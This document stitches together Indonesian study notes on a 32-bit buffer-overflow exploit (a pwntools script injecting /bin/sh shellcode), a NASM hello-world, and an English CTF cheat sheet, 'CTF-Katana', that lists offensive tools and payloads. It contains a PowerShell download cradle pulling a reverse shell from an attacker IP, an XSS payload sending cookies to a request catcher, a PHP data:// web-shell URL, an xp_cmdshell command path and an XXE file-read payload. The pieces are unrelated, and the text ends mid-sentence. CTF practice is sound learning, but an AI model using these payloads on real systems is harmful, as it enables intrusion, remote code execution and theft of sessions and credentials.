'-z execstack' - ada 2 seri : aslr/randomize memory off dan aslr/randomize memory on (untuk belajar, di off-kan dulu)
echo "0" > /proc/sys/kernel/randomize_va_space"0" untuk off, "1" untuk on
dicek NX harus disable :
- mengetahui alamat buffer & offset,
run dalam gdb, ide : memenuhi input hingga SIGSEGV / segmentation vault
didapat offset = 68
0x08049204 <+46>: lea eax,[ebp-0x40]
0x08049207 <+49>: push eax
0x08049208 <+50>: push 0x0
0x0804920a <+52>: call 0x8049080 <read@plt>
proses read pada [ebp-0x40] = 68 desimal
ide :
shellcode + 'A'*(offset - len(shellcode)) + memori_buff
Maka didapat code python :
from pwn import *
import struct
# opsional --> dapat diganti
context(arch='i386', os='linux')
# jalankan program --> dapat diganti
p = process('./shellcode')
# interaksi dengan output program --> dapat diganti
p.recvuntil("di ")
# alamat buffer --> dapat diganti (jika perlu)
buff = int(p.recvline(),16)
# asumsi telah mengetahui offset (berdasarkan percobaan diatas) --> dapat diganti
offset = 68
# asumsi menggunakan mesin <I / litle endian 32 bit --> dapat diganti (jika perlu)
memori_buff = struct.pack("<I", buff)
# paten / didapat dr http://shell-storm.org/shellcode/files/shellcode-752.php
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
# membuat payload --> dapat diganti
payload = shellcode + 'A'*(offset - len(shellcode)) + memori_buff
# memberi input dengan...
p.sendline(payload+'<span class="hljs-symbol">\n</span>')
# agar shell dapat berjalan
p.interactive()
sudah masuk ke dalam shell
Masalah :
- bagaimana kalau tidak diketahui alamat buffer ?
- klo 64 bit gmn gan 😹
Assembly
sumber :
- https://www.youtube.com/playlist?list=PLetF-YjXm-sCH6FrTz4AQhfH6INDQvQSn
- https://www.tutorialspoint.com/assembly_programming
Linux
sementara versi 64bit
Contoh kode sederhana beserta penjelasan : (misal nama file hello.asm)
section .data
text db "Hello world", 10
section .text
global _start
_start:
mov rax, 1
mov rdi, 1
mov rsi, text
mov rdx, 14
syscall
mov rax, 60
mov rdi, 0
syscall
run :
sudo apt install nasm
nasm -f elf64 -o hello.o hello.asm
ld hello.o -o hello
./hello
section .data : tempat nyimpan data
text db "Hello world", 10 :
- nama memory address 'text'
- defining bytes 'db'
- berisi "Hello world" dan '10' / newline
CTF-Katana
John Hammond | February 1st, 2018
This repository, at the time of writing, will just host a listing of tools and commands that may help with CTF challenges. I hope to keep it as a "live document," and ideally it will not die out like the old "tools" page I had made (https://github.com/USCGA/tools).
The formal tool that automates some of this low-hanging fruit checking is finally released. Katana is available at https://github.com/JohnHammond/katana. Pull-requests and contributions are welcome!
Table of Contents
- Post-Exploitation
- Port Enumeration
- 445 (smb/Samba)
- 1433 (Microsoft SQL Server)
- SNMP
- Microsoft Office Macros
- Retrieving Network Service Hashes
- Windows Reverse Shells
- Known Exploits
- Excess
- Esoteric Languages
- Steganography
- Cryptography
- Networking
- PHP
- PDF Files
- Forensics
- PNG File Forensics
- APK Forensics
- Web
- Reverse Engineering
- PowerShell
- Windows Executables
- Python Reversing
- Binary Exploitation/pwn
- VisualBasicScript Reversing
- Miscellaneous
- Jail Breaks
- Trivia
Post-Exploitation
-
If you need to use a program that is not on the box you just broke into, try and build a static binary! I've seen this used on Fatty for HackTheBox, getting a
ptywith the typicalpython -c 'import pty...'trick when it didn't have Python originally!https://github.com/andrew-d/static-binaries
Port Enumeration
445 (smb/Samba)
-
smbmaptells you permissions and access, whichsmbclientdoes not do!To try and list shares as the anonymous user DO THIS (this doesn't always work for some weird reason)
smbmap -H 10.10.10.125 -u anonymous
Or you can attempt just:
smbmap -H 10.10.10.125
And you can specify a domain like so:
smbmap -H 10.10.10.125 -u anonymous -d HTB.LOCAL
Worth trying localhost as a domain, if that gets "NO_LOGON_SERVERS"
smbmap -H 10.10.10.125 -u anonymous -d localhost
enum4linux
enum4linux 10.10.10.125
-
smbclientNOTE: DEPENDING ON THE VERSION OF SMBCLIENT YOU ARE USING, you may need to SPECIFY the use of S<B version 1 or SMB version 2. You can dp this with
-m SMB2. Older versions of SMBclient (latest being 4.10 at the time of writing) use SMB1 by default.You can use
smbclientto look through files shared with SMB. To list available shares:
smbclient -m SMB2 -N -L //10.10.10.125/
Once you find a share you want to/can access, you can connect to shares by using the name following the locator:
smbclient -m SMB2 -N //10.10.10.125/Reports
You will see a smb: \> prompt, and you can use ls and get to retrieve files or even put if you need to place files there.
1433 (Microsoft SQL Server)
-
impacket->mssqlclient.pyYou can connect to a Microsoft SQL Server with
myssqlclient.pyknowing a username and password like so:
mssqlclient.py username@10.10.10.125
It will prompt you for a password. If your password fails, the server might be using "Windows authentication", which you can use with:
mssqlclient.py username@10.10.10.125 -windows-auth
If you have access to a Micosoft SQL Server, you can try and enable_xp_cmdshell to run commands. With mssqlclient.py you can try:
SQL> enable_xp_cmdshell
though, you may not have permission. If that DOES succeed, you can now run commands like:
SQL> xp_cmdshell whoami
SNMP
- snmp-check
snmp-check 10.10.10.125
Microsoft Office Macros
-
oletools->olevbaolevbacan look for Macros within office documents (which you should always check) with just supplying the filename:
olevba "Currency Volume Report.xlsm"
Retrieving Network Service Hashes
./Responder.py -I tun0
Windows Reverse Shells
-
If you have access to PowerShell, you can get a Reverse shell by using nishang's
Invoke-PowerShellTcp.ps1script inside of theShellsdirectory. Be sure to add the function call example to the bottom of your script, so all you need to to do to host it is (on your Attacker machine):
python -m SimpleHTTPServer
and then on the victim machine:
powershell IEX( New-Object Net.WebClient).DownloadString("http://10.10.14.6:8000/reverse.ps1") )
Also, if you want to have nice up and down arrow key usage within your Windows reverse shell, you can use the utility rlwrap before your netcat listener command.
rlwrap nc -lnvp 9001
Known Exploits
-
Java RMI
Metasploit module:
exploit/multi/misc/java_rmi_serverWhen testing this, responses are known to come back with an error or exception. Your code MAY VERY WELL still be executing. Try and run commands that include a callback. And use Python to live off the land and try avoid special characters, like
|pipes! ysoserial is a good tool for deserializing Java code to take advantage of this vulnerability. -
Heartbleed
Metasploit module:
auxiliary/scanner/ssl/openssl_heartbleedBe sure to use
set VERBOSE trueto see the retrieved results. This can often contain a flag or some valuable information. -
libssh - SSH
libssh0.8.1(or others??) is vulnerable to an easy and immediate login. Metasploit module:auxiliary/scanner/ssh/libssh_auth_bypass. Be sure toset spawn_pty trueto actually receive a shell! Thensessions -i 1to interact with the shell spawned (or whatever appropriate ID) -
Bruteforcing RDP
Bruteforcing RDP with
hydraorncrackis NOT ALWAYS ADVISABLE because of Cred-SSB. An option might be to script xrdp to automate against a password or word list... but THIS IS NOT TESTED. -
Apache Tomcat
If you can determine that you are working with an Apache Tomcat server (usually by visiting pages that do not exist and seeing a 404 error message), try to visit
/Manager, which is usually accessible on Tomcat. Possible credentials could betomcat:tomcat,tomcat:s3cr3t,admin:s3cr3t,root:s3cr3t, etc. etc.. Worthy of bruteforcing withhydra.If you see URLs are appended with a
.action(not a.do), you may be working with Apache Struts. -
Apache Struts
To identify the Apache Struts version is running,
Excess
-
Brute-force a Wi-Fi access point.
-
Tool to quickly spin up a Samba share.
-
Script to scan Windows Samba shares. VERY GOOD TO RUN FOR WINDOWS ENUMERATION.
-
Attack script for old or outdated Drupal servers. Usually very effective.
Esoteric Languages
-
An online tool that has a ton of Esoteric language interpreters.
-
This language is easily detectable by its huge use of plus signs, braces, and arrows. There are plenty of online interpreters, like this one: https://copy.sh/brainfuck/ Some example code:
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++++++++++++++.--.--------------.+++++++++++++.----.-----------
--.++++++++++++.--------.<------------.<++.>>----.+.<+++++++++++.+++++++++++++.>+++++++++++++++++.-------------
--.++++.+++++++++++++++.<<.>>-------.<+++++++++++++++.>+++..++++.--------.+++.<+++.<++++++++++++++++++++++++++
.<++++++++++++++++++++++.>++++++++++++++..>+.----.>------.+++++++.--------.<+++.>++++++++++++..-------.++.
-
This language is easily identified by numerous "MOO" statements and random capitalization. It has an option on https://tio.run/ Some example code:
MoO moO MoO mOo MOO OOM MMM moO moO
MMM mOo mOo moO MMM mOo MMM moO moO
MOO MOo mOo MoO moO moo mOo mOo moo
-
An esoteric language that looks a lot like Base85... but isn't. Often has references to "Inferno" or "Hell" or "Dante." Online interpreters like so: http://www.malbolge.doleczek.pl/ Some example code:
(=<`#9]~6ZY32Vx/4Rs+0No-&Jk)"Fh}|Bcy?`=*z]Kw%oG4UUS0/@-ejc(:'8dc
-
A graphical programming language... looks like large 8-bit pixels in a variety of colors. Can be interpreted with the tool
npiet

-
A joke language. Recognizable by
.and?, and!. Online interpreter for this language: https://www.dcode.fr/ook-language Some example code:
Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook! Ook? Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook! Ook! Ook? Ook! Ook? Ook.
Ook! Ook. Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook! Ook? Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook?
Ook! Ook! Ook? Ook! Ook? Ook. Ook. Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook.
-
A language intended to look like song lyrics github link. Rockstar has an official online interpreter which you can find here: https://codewithrockstar.com/online
below is fizzbuzz in Rockstar:
Midnight takes your heart and your soul
While your heart is as high as your soul
Put your heart without your soul into your heart
Give back your heart
Desire is a lovestruck ladykiller
My world is nothing
Fire is ice
Hate is water
Until my world is Desire,
Build my world up
If Midnight taking my world, Fire is nothing and Midnight taking my world, Hate is nothing
Shout "FizzBuzz!"
Take it to the top
If Midnight taking my world, Fire is nothing
Shout "Fizz!"
Take it to the top
If Midnight taking my world, Hate is nothing
Say "Buzz!"
Take it to the top
Whisper my world
Steganography
-
Don't ever forget about
steghide! This tool can use a password list likerockyou.txtwith steghide. SOME IMAGES CAN HAVE MULTIPLE FILED ENCODED WITH MULTIPLE PASSWORDS. -
A tool often used in CTFs for encoding messages into images.
-
This is similar to
stegcracker, but much faster. Can also extract metadata without a password list. -
This is similar to
stegcrackerabove. -
A Java
.JARtool, that can extract data from an image. A good tool to use on guessing challenges, when you don't have any other leads. We found this tool after the Misc50 challenge from HackIM 2018 -
A Java
.JARtool, that will open an image and let you as the user arrow through different renditions of the image (viewing color channels, inverted colors, and more). The tool is surprisingly useful. -
A command-line tool typically used alongside a password or key, that could be uncovered some other way when solving a challenge.
-
Python image steganography. Stepic hides arbitrary data inside PIL images. Download it here: http://domnit.org/stepic/doc/
-
Digital Invisible Ink Stego Tool
A Java steganography tool that can hide any sort of file inside a digital image (regarding that the message will fit, and the image is 24 bit colour)
WHEN GIVEN A FILE TO WORK WITH, DO NOT FORGET TO RUN THIS STEGHIDE WITH AN EMPTY PASSWORD!
-
For PNG images (or BMP) images, there exists a Windows utility that can hide "ENCRYPTED" text within the LSB. If you also happen to have passwords, you can decrypt this and potentially find a flag. https://www.softpedia.com/get/Security/Encrypting/ImageHide.shtml
-
Another steganography tool. A simple command-line tool and super easy to use -- definitely one to at least try.
-
Unicode Steganography / Zero-Width Space Characters
Some text that may be trying to hide something, in a seemingly innocent way, like "Hmm, there may be something hiding here..." may include zero-width characters. This is a utility that might help: https://330k.github.io/misc_tools/unicode_steganography.html ... Other options are just gross find and replace operations in Python IDLE.
-
Online LSB Tools
There are many online LSB tools that work in different ways. If you are given a file that you know is part of a Least Significant Bit challenge, try these tools:
https://manytools.org/hacker-tools/steganography-encode-text-into-image/ Only supports PNG https://stylesuxx.github.io/steganography/
-
Other stego tools:
-
Command-line tool for use against Least Significant Bit steganography... unfortunately only works against PNG and BMP images.
-
Another command-line tool to use against JPEG images. https://github.com/lukechampine/jsteg Handy for Hackerrank Codefest CTF 2018.
-
A GUI tool for JPG steganography. https://sourceforge.net/projects/jstego/ It is a Java JAR file similar to stegsolve.jar
-
Morse Code
Always test for this if you are seeing two distinct values... it may not always be binary! Online decoders like so: https://morsecode.scphillips.com/translator.html. If you need to be case-sensistive or include a bit more stuff like numbers and punctuation, use this code: https://gist.github.com/JohnHammond/961acabfd85a8715220fa79492b25368
If you find Morsecode in the "international written form", like "dah-dit-dit-dah" etcetera, you can use this code: https://gist.github.com/JohnHammond/7d3ddb167fa56f139dc4419091237b51 ... which was carved out of this resource: https://morsecode.scphillips.com/morse.html
-
Whitespace
Tabs and spaces could be representing 1's and 0's and treating them as a binary message... or, they could be whitespace done with
snowor an esoteric programming language interpreter: https://tio.run/#whitespace -
Audio Speed Change (also change pitch)
mplayer -af scaletempo -speed 64 flag.mp3
-
DNA Codes
When given a sequence with only A, C, G, T , there is an online mapping for these. Try this:


-
Extract Thumbnail (data is covered in original image)
If you have an image where the data you need is covered, try viewing the thumbnail:
exiftool -b -ThumbnailImage my_image.jpg > my_thumbnail.jpg
-
A command-line tool for whitespace steganography (see above).
-
SONIC Visualizer (audio spectrum)
Some classic challenges use an audio file to hide a flag or other sensitive stuff. SONIC visualizer easily shows you spectrogram. If it sounds like there is random bleeps and bloops in the sound, try this tactic!
-
Audio frequencies common to a phone button, DTMF: https://en.wikipedia.org/wiki/Dual-tone_multi-frequency_signaling.
-
Phone-Keypad
Some messages may be hidden with a string of numbers, but really be encoded with old cell-phone keypads, like text messaging with numbers repeated:
-
A Python module to compress a video into a single standalone image, simulating a long-exposure photograph. Was used to steal a QR code visible in a video, displayed through "Star Wars" style text motion.
-
A small square "barcode" image that holds data.
-
A command-line tool to quickly scan multiple forms of barcodes, QR codes included. Installed like so on a typical Ubuntu image:
sudo apt install zbar-tools
-
Punctuation marks
!,.and?I have seen some challenges use just the end of
.or?or!to represent the Ook esoteric programming language. Don't forget that is a thing!
Cryptography
-
Cryptii
https://cryptii.com has multiple decoding tools like base64, Ceaser Cipher, ROT13, Vigenère Cipher and more.
-
Keyboard Shift
https://www.dcode.fr/keyboard-shift-cipher If you see any thing that has the shape of a sentence but it looks like nonsense letters, and notes some shift left or right, it may be a keyboard shift...
-
Bit Shift
Sometimes the letters may be shifted by a stated hint, like a binary bit shift ( x >> 1 ) or ( x << 1 ).
-
Reversed Text
Sometimes a "ciphertext" is just as easy as reversed text. Don't forgot to check under this rock! You can reverse a string in Python like so:
"UOYMORFEDIHOTGNIYRTEBTHGIMFTCA.TAHTTERCESASISIHT"[::-1]
-
XOR
ANY text could be XOR'd. Techniques for this are Trey's code, and XORing the data against the known flag format. Typically it is given in just hex, but once it is decoded into raw binary data, it gives it keeps it's hex form (as in
\xde\xad\xbe\xefetc..) Note that you can do easy XOR locally with Python like so (you needpwntoolsinstalled):python >>> import pwn; pwn.xor("KEY", "RAW_BINARY_CIPHER")
IF YOU KNOW A DECENT CRIB (PLAINTEXT), USE CYBERCHEF TO HELP DETERMINE THE KEY
DO NOT FORGET TO JUST BRUTEFORCE JUST THE FIRST BYTE, OR TWO BYTES OR THREE BYTES.
-
Caesar Cipher
The most classic shift cipher. Tons of online tools like this: https://www.dcode.fr/caesar-cipher or use
caesaras a command-line tool (sudo apt install bsdgames) and you can supply a key for it. Here's a one liner to try all letter positions:cipher='jeoi{geiwev_gmtliv_ws_svmkmrep}' ; for i in {0..25}; do echo $cipher | caesar $i; doneBe aware! Some challenges include punctuation in their shift! If this is the case, try to a shift within all 255 ASCII characters, not just 26 alphabetical letters!
-
caesarA command-line caesar cipher tool (noted above) found in the
bsdgamespackage. -
If you have some text that you have no idea what it is, try the Atbash cipher! It's a letter mapping, but the alphabet is reversed: like
Amaps toZ,Bmaps toYand so on. There are tons of online tools to do this (http://rumkin.com/tools/cipher/atbash.php), and you can build it with Python. -
http://www.mygeocachingprofile.com/codebreaker.vigenerecipher.aspx, https://www.guballa.de/vigenere-solver and personal Python code here: https://pastebin.com/2Vr29g6J
-
Gronsfeld Cipher
A variant of the Vignere cipher that uses numbers insteads of letters. http://rumkin.com/tools/cipher/gronsfeld.php
-
Beaufourt Cipher
-
A substitution cipher that replaces each character with five characters from a set of two (A and B is used most of the time). If we look at A as 0 and B as 1 it is a special encoding to binary numbers, where the character A has the value of binary
b00000. Easy to recognize, because the ciphertext only contains two characters (e.g.: A and B) and the length of the ciphertext is divisible by 5. Example:AAABB AAABA ABBAB AAABB AABAA AAAAB AAAAA AAABA ABBAB ABBAA.[Online tool](http://rumkin.com/tools/cipher/baconian.php) -
Python random module cracker/predictor
https://github.com/tna0y/Python-random-module-cracker... helps attack the Mersenne Twister used in Python's random module.
-
Transposition Cipher
-
RSA: Classic RSA
Variables typically given:
n,c,e. ALWAYS try and give to http://factordb.com. Ifpandqare able to be determined, use some RSA decryptor; handmade code available here: https://pastebin.com/ERAMhJ1v -
RSA: Multi-prime RSA
When you see multi-prime RSA, you can use calculate
phiby still using all the factors.
phi = (a - 1) * (b - 1) * (c - 1) # ... etcetera
If FactorDB cannot find factors, try alpertron: https://www.alpertron.com.ar/ECM.HTM
-
RSA:
eis 3 (or small)If
eis 3, you can try the cubed-root attack. If you the cubed root ofc, and if that is smaller than the cubed root ofn, then your plaintext messagemis just the cubed root ofc! Here is Python code to take the cubed root:
def root3rd(x):
y, y1 = None, 2
while y!=y1:
y = y1
y3 = y**3
d = (2*y3+x)
y1 = (y*(y3+2*x)+d//2)//d
return y
-
RSA: Wiener's Little D Attack
The telltale sign for this kind of challenge is an enormously large
evalue. Typicallyeis either 65537 (0x10001) or3(like for a Chinese Remainder Theorem challenge). Some stolen code available here: https://pastebin.com/VKjYsDqD -
RSA: Boneh-Durfee Attack The tellgate sign for this kind of challenge is also an enormously large
evalue (eandnhave similar size). Some code for this attack can be found here -
RSA: Chinese Remainder Attack
These challenges can be spotted when given mutiple
ccipher texts and multiplenmoduli.emust be the same number of givencandnpairs. Some handmade code here: https://pastebin.com/qypwc6wH -
This is an adaptation of RC4... just not. There is an implementation available in Python. https://github.com/dstein64/LC4/blob/master/documentation.md
-
Elgamal
-
Affine Cipher
-
Substitution Cipher (use quip quip!)
-
Railfence Cipher
-
racker: http://bionsgadgets.appspot.com/ww_forms/playfair_ph_web_worker3.html
-
Polybius Square
-
The Engima
http://enigma.louisedade.co.uk/enigma.html, https://www.dcode.fr/enigma-machine-cipher
-
AES ECB
The "blind SQL" of cryptography... leak the flag out by testing for characters just one byte away from the block length.
-
Two-Time Pad
-
International Code of Signals Maritime
First drafted by the British Board of Trade in 1855 and adopted as a world-wide standard on 1 January 1901. It is used for communications with ships, but also occasionally used by geocaching mystery caches (puzzle caches), CTFs and various logic puzzles. You may want to give a look at the tool maritime flags translator.

- Daggers Cipher
The daggers cipher is another silly text-to-image encoder. This is the key, and you can find a decoder on https://www.dcode.fr/daggers-alphabet.

- Hylian Language (Twilight Princess)
The Hylian language is another silly text-to-image encoder. This is the key, and you can find a decoder on https://www.dcode.fr/hylian-language-twilight-princess.

- Hylian Language (Breath of the Wild)
The Hylian language is another silly text-to-image encoder. This is the key, and you can find a decoder on https://www.dcode.fr/hylian-language-breath-of-the-wild.

- Sheikah Language (Breathe of the Wild)
The Sheikah language is another silly text-to-image encoder. This is the key, and you can find a decoder on https://www.dcode.fr/sheikah-language.

- Hexahue Alphabet
The hexhue is an another tex-to-image enocder. you can find a decoder on https://www.boxentriq.com/code-breaking/hexahue

Networking
-
The go-to tool for examining
.pcapfiles. -
Seriously cool tool that will try and scrape out images, files, credentials and other goods from PCAP and PCAPNG files.
-
Not all tools like the PCAPNG file format... so you can convert them with an online tool http://pcapng.com/ or from the command-line with the
editcapcommand that comes with installing Wireshark:
editcap old_file.pcapng new_file.pcap
-
A command-line tool for reorganizing packets in a PCAP file and getting files out of them. Typically it gives no output, but it creates the files in your current directory!
tcpflow -r my_file.pcap
ls -1t | head -5 # see the last 5 recently modified files
-
A GUI tool to visualize network traffic.
PHP
-
Magic Hashes
A common vulnerability in PHP that fakes hash "collisions..." where the
==operator falls short in PHP type comparison, thinking everything that follows0eis considered scientific notation (and therefore 0). More valuable info can be found here: https://github.com/spaze/hashes, but below are the most common breaks.
| Plaintext | MD5 Hash |
|---|---|
| 240610708 | 0e462097431906509019562988736854 |
| QLTHNDT | 0e405967825401955372549139051580 |
| QNKCDZO | 0e830400451993494058024219903391 |
| PJNPDWY | 0e291529052894702774557631701704 |
| NWWKITQ | 0e763082070976038347657360817689 |
| NOOPCJF | 0e818888003657176127862245791911 |
| MMHUWUV | 0e701732711630150438129209816536 |
| MAUXXQC | 0e478478466848439040434801845361 |
| IHKFRNS | 0e256160682445802696926137988570 |
| GZECLQZ | 0e537612333747236407713628225676 |
| GGHMVOE | 0e362766013028313274586933780773 |
| GEGHBXL | 0e248776895502908863709684713578 |
| EEIZDOI | 0e782601363539291779881938479162 |
| DYAXWCA | 0e424759758842488633464374063001 |
| DQWRASX | 0e742373665639232907775599582643 |
| BRTKUJZ | 00e57640477961333848717747276704 |
| ABJIHVY | 0e755264355178451322893275696586 |
| aaaXXAYW | 0e540853622400160407992788832284 |
| aabg7XSs | 0e087386482136013740957780965295 |
| aabC9RqS | 0e041022518165728065344349536299 |
| 0e215962017 | 0e291242476940776845150308577824 |
| Plaintext | SHA1 Hash |
|---|---|
| aaroZmOk | 0e66507019969427134894567494305185566735 |
| aaK1STfY | 0e76658526655756207688271159624026011393 |
| aaO8zKZF | 0e89257456677279068558073954252716165668 |
| aa3OFF9m | 0e36977786278517984959260394024281014729 |
| Plaintext | MD4 Hash |
|---|---|
| bhhkktQZ | 0e949030067204812898914975918567 |
| 0e001233333333333334557778889 | 0e434041524824285414215559233446 |
| 0e00000111222333333666788888889 | 0e641853458593358523155449768529 |
| 0001235666666688888888888 | 0e832225036643258141969031181899 |
-
preg_replaceA bug in older versions of PHP where the user could get remote code execution
-
php://filterfor Local File InclusionA bug in PHP where if GET HTTP variables in the URL are controlling the navigation of the web page, perhaps the source code is
include-ing other files to be served to the user. This can be manipulated by using PHP filters to potentially retrieve source code. Example like so:
http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index
-
data://text/plain;base64A PHP stream that can be taken advantage of if used and evaluated as an
includeresource or evaluated. Can be used for RCE: check out this writeup: https://ctftime.org/writeup/8868 ... TL;DR:
http://103.5.112.91:1234/?cmd=whoami&page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4=
PDF Files
-
pdfinfoA command-line tool to get a basic synopsis of what the PDF file is.
-
pdfcrackA comand-line tool to recover a password from a PDF file. Supports dictionary wordlists and bruteforce.
-
pdfimagesA command-line tool, the first thing to reach for when given a PDF file. It extracts the images stored in a PDF file, but it needs the name of an output directory (that it will create for) to place the found images.
-
A command-line tool to extract files out of a PDF.
Forensics
-
Python bytecode
uncompyle6To decompile bytecode, use
uncompyle6. There is one special argument (I think-dor something???) that can have success if the default operation does not work. Do not give up hope when working with obvious Python bytecode. EasyPythonDecompiler might work, or perhaps testing withuncompyle -
Keepass
keepassxcan be installed on Ubuntu to open and explore Keepass databases. Keepass databases master passwords can be cracked withkeepass2john. -
The starting values that identify a file format. These are often crucial for programs to properly read a certain file type, so they must be correct. If some files are acting strangely, try verifying their magic number with a trusted list of file signatures.
-
An online tool that allows you to modify the hexadecimal and binary values of an uploaded file. This is a good tool for correcting files with a corrupt magic number
-
A Python script to examine a
.mozillaconfiguration file, to examine downloads, bookmarks, history or bookmarks and registered passwords. Usage may be as such:
python dumpzilla.py .mozilla/firefox/c3a958fk.default/ --Downloads --History --Bookmarks --Passwords
-
Repair image online tool
Good low-hanging fruit to throw any image at: https://online.officerecovery.com/pixrecovery/
-
foremostA command-line tool to carve files out of another file. Usage is
foremost [filename]and it will create anoutputdirectory.
sudo apt install foremost
-
binwalkA command-line tool to carve files out of another file. Usage to extract is
binwalk -e [filename]and it will create a_[filename]_extracteddirectory.
sudo apt install binwalk
-
A command-line tool to carve out files of another file. Very similar to the other tools like
binwalkandforemost, but always try everything! -
A command-line tool, used to recover deleted files from a file system image. Handy to use if given a
.ddand.imgfile etc. -
Another command-line utility that comes with
testdisk. It is file data recovery software designed to recover lost files including video, documents and archives from hard disks, CD-ROMs, and lost pictures (thus the Photo Recovery name) from digital camera memory. PhotoRec ignores the file system and goes after the underlying data, so it will still work even if your media's file system has been severely damaged or reformatted. -
[Analysis Image] ['https://29a.ch/photo-forensics/#forensic-magnifier']
Forensically is free online tool to analysis image this tool has many features like Magnifier, Clone Detection, Error Level analysis, Noise Analusis, level Sweep, Meta Data, Geo tags, Thumbnail Analysis , JPEG Analysis, Strings Extraction.
PNG File Forensics
-
pngcheckA command-line tool for "checking" a PNG image file. Especially good for verifying checksums.
-
Correct the CRC on all of the parts of a PNG image file.
-
https://github.com/sherlly/PCRT
Utility to try and correct a PNG file. NOTE... this will NOT SAVE your file as new one. YOU HAVE TO SHOW the file (enter y when using the script]) to actually view the new image.
APK Forensics
-
A command-line tool to extract all the resources from an APK file. Usage:
apktool d <file.apk>
-
A command-line tool to convert a J.dex file to .class file and zip them as JAR files.
-
A GUI tool to decompile Java code, and JAR files.
Web
-
robots.txtThis file tries to hide webpages from web crawlers, like Google or Bing or Yahoo. A lot of sites try and use this mask sensitive files or folders, so it should always be some where you check during a CTF. http://www.robotstxt.org/
-
A web browser plug-in that offers an easy interface to modifying cookies. THIS IS OFTEN OVERLOOKED, WITHOUT CHANGING THE VALUE OF THE COOKIES... BE SURE TO FUZZ EVERYTHING, INCLUDING COOKIE VALUES!
-
Backup pages (
~and.bakand.swp)Some times you may be able to dig up an old version of a webpage (or some PHP source code!) by adding the usual backup suffixes. A good thing to check!
-
/admin/This directory is often found by directory scanning bruteforce tools, so I recommend just checking the directory on your own, as part of your own "low-hanging fruits" check.
-
/.git/A classic CTF challenge is to leave a
gitrepository live and available on a website. You can see this withnmap -A(or whatever specific script catches it) and just by trying to view that specific folder,/.git/. A good command-line tool for this isGitDumper.sh, or just simply usingwget.Sometimes you might Bazaar or Mercurial or other distributed version control systems. You can use https://github.com/kost/dvcs-ripper for those!!
-
A command-line tool that will automatically scrape and download a git repository hosted online with a given URL.
-
Bazaar
.bzrIf you see a publically accessible
.bzrdirectory, you can usebzr branch http://site output-directoryto download it. Or, use this utility: https://github.com/kost/dvcs-ripper -
XSS Filter Evasion Cheat Sheet. Cross-site scripting, vulnerability where the user can control rendered HTML and ideally inject JavaScript code that could drive a browser to any other website or make any malicious network calls. Example test payload is as follows:
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
Typically you use this to steal cookies or other information, and you can do this with an online requestbin.
<img src="#" onerror="document.location='http://requestbin.fullcontact.com/168r30u1?c' + document.cookie">
-
new usefull XSS cheat sheet : 'https://portswigger.net/web-security/cross-site-scripting/cheat-sheet'
-
If you need to script or automate against a page that uses the I'm Under Attack Mode from CloudFlare, or DDOS protection, you can do it like this with linked Python module.
#!/usr/bin/env python
import cfscrape
url = 'http://yashit.tech/tryharder/'
scraper = cfscrape.create_scraper()
print scraper.get(url).content
-
A command-line tool for automated XSS attacks. Seems to function like how sqlmap does.
-
- A Ruby script to scan and do reconnaissance on a Wordpress application.
-
Mac AutoLogin Password Cracking
Sometimes, given an Mac autologin password file /etc/kcpassword, you can crack it with this code:
def kcpasswd(ciphertext):
key = '7d895223d2bcddeaa3b91f'
while len(key) < (len(ciphertext)*2):
key = key + key
key = binasciiunhexlify(key)
result = ''
for i in range(len(ciphertext)):
result += chr(ord(ciphertext[i]) ^ (key[i]))
return result
- XXE : XML External Entity
An XML External Entity attack is a type of attack against an application that parses XML input and allows XML entities. XML entities can be used to tell the XML parser to fetch specific content on the server. We try to display the content of the file /flag :
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///flag">
]>
<data>&file;</data>
<?xml version="1.0" encoding="UTF-16"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]><foo>&xxe;</foo>
-
Wordpress Password Hash Generator
If you make it into a Wordpress database and can change passwords, reset the admin password to a new hash: http://www.passwordtool.hu/wordpress-password-hash-generator-v3-v4. This will let you login to /wp-admin/ on the site.
-
Cookie Catcher
-
A free tool and online end-point that can be used to catch HTTP requests. Typically these are controlled and set by finding a XSS vulnerabilty.
-
A free tool and online end-point that can be used to catch HTTP requests. Typically these are controlled and set by finding a XSS vulnerabilty.
-
A command-line tool written in Python to automatically detect and exploit vulnerable SQL injection points.
-
Flask Template Injection
Try
{{config}}to leak out the secret key, or start to climb up the Python MRO to acheive code execution.https://nvisium.com/resources/blog/2015/12/07/injecting-flask.html, https://nvisium.com/resources/blog/2016/03/09/exploring-ssti-in-flask-jinja2.html, https://nvisium.com/resources/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html
-
SQL
IFstatementsThese are handy for some injections and setting up some Blind SQL if you need to. Syntax is like
SELECT ( IF ( 1=1, "Condition successful!", "Condition errored!" ) ) -
Explicit SQL Injection
-
Blind SQL Injection
-
MongoDB
Get MongoDB properly installed:
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv 9DA31620334BD75D9DCB49F368818C72E52529D4
echo "deb [ arch=amd64,arm64 ] https://repo.mongodb.org/apt/ubuntu xenial/mongodb-org/4.0 multiverse" | sudo tee /etc/apt/sources.list.d/mongodb-org-4.0.list
sudo apt-get update
sudo apt-get install -y mongodb-org
Connect to a remote server with credentials:
mongo --username 'uname' -p 'pword' --host hostname.com:27017
Print out the database info:
show databases
use <databasename>
show collections
c = db.<collectioname>
c.find()
-
gobuster
-
DirBuster
-
nikto -
Burpsuite
-
AWS / S3 Buckets
You can try and dump an AWS bucket like so. The
